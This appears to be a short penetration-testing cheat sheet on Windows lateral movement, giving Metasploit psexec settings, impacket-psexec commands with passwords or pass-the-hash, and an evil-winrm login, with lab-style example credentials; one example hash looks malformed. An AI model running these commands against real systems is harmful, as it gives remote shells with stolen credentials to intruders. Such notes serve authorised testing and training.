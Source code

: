 # Metasploit
```
Easy but noisy, do this for CTFs or certs.
use exploit/windows/smb/psexec
set RHOST $(IP_ADDRESS)
set SMBDomain $(DOMAIN) # e.g MARVEL.local
set SMBUser $(USERNAME)
set SMBPass $(PASSWORD) # The password can be the hash instead of the cracked password.
exploit
```
# psexec.py
Much less noisy. Do this in real-world engagements or certs where metasploit isn't allowed.
```bash
impacket-psexec $(DOMAIN)/$(USERNAME):'$(PASSWORD)'@$(IP_ADDRESS)
```
Example:
```bash
impacket-psexec MARVEL.local/fcastle:'Password1'@192.168.138.137
```
How to do it with a hash instead:
```bash
impacket-psexec $(USERNAME)@$(IP_ADDRESS) -hashes $(LM):$(NT)
```
Example:
```bash
impacket-psexec administrator@10.0.0.25 -hashes aad3b435b51404eeaad3b435b51404ee:6c598d4edc98d4edc98d0a0c9797ef98b869751
```
# evil-winrm
```bash
evil-winrm -i 192.168.50.220 -u daveadmin -p "qwertqwertqwert123\!\!"
```
